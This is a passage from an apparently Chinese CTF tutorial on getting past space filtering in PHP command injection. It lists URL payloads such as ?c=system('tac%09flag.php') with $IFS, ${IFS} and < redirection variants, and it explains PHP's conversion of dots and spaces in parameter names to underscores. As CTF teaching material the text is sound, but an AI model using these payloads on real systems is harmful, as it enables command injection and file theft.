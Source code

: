 采用 URL 编码和其它技巧绕过空格过滤

## 4.1 `%20` 空格绕过
是 URL 编码的空格
```c
?c=system("tac%20flag.php")
```

## 4.2 `%09` 空格绕过
`%09`是 URL 编码中的水平制表符（Tab，ASCII 码为 9），它的作用是将 `tac` 后面的 `fla*` 和前面的部分隔开，通常它不会影响命令的执行，只是空格的替代。
```c
?c=system("tac%09flag.php");
```

## 4.3 `$IFS$9` 空格绕过
`$IFS` 是一个特殊的环境变量，表示 Internal Field Separator（内部字段分隔符），默认情况下，`$IFS` 的值包含空格、制表符和换行符。`$9`是命令行参数的占位符之一，会被解析为空字符串。两者结合可以起到空格的作用
```c
?c=system("tac$IFS$9flag.php");
```

## 4.4 `${IFS}` 绕过

```c
?c=system("tac${IFS}flag.php")
```

## 4.5 `<` 输入重定向符绕过
`<` 是 输入重定向符号，用于将文件内容作为命令的输入，可以用于空格绕过。
```c
?c=system("tac<fla*");
```

## 4.6 '_'替换绕过


当 PHP 把 URL 的 query string 解析成 `$_GET` 时，它会做一些“转换”：

* `.` (点) → 转换成 `_`
* 空格（包括 `%20` 和 `+`） → 转换成 `_`

也就是说，URL 参数的名字里如果有 `.`、` `、`+`，PHP 都会自动替换成下划线 `_`。

---

在 [PHP 手册](https://www.php.net/manual/en/language.variables.external.php) 里写得很清楚：

> Dots and spaces in variable names are converted to underscores.
> 变量名里的点和空格会被转为下划线。

所以就会有下面的这种情况：

```
?NI+SA+=txw4ever
```
